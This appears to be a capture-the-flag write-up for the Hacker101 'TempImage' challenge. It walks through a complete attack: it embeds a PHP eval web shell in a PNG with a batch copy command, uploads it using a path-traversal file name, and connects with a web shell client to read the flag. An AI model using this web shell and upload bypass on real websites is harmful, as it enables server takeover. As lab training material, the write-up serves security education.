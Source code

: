 ![hacker101-oauthbreaker-flag1](https://user-images.githubusercontent.com/48465089/126211417-a7627d34-b109-4978-86b2-f40606c48cd0.png)
# TempImage - FLAG1 
https://vccolombo.github.io/assets/images/cybersec/hacker101-oauthbreaker-flag1.png
## 0x00 Index

![](../flag0/imgs/index.jpg)

## 0x01 Generate Image Shell

Run bat file [gen_imgshell.bat](./gen_imgshell.bat).

```batch
copy img.png/b + webshell.php shell.png
```

Get shell.png which has the injected code.

```php
<?php @eval($_POST['hacker1'])?>
```

![](./shell.png)

## 0x02 Upload the Image Shell

Catch the request and change the file name.

```
Content-Disposition: form-data; name="filename"

/../../shell.php
```

Shell upload successfully.

![](./imgs/shell_upload.jpg)

## 0x03 Connect Server 

![](./imgs/caidao.jpg)

## 0x04 FLAG

Flag can be found in index.php

![](./imgs/flag.jpg)
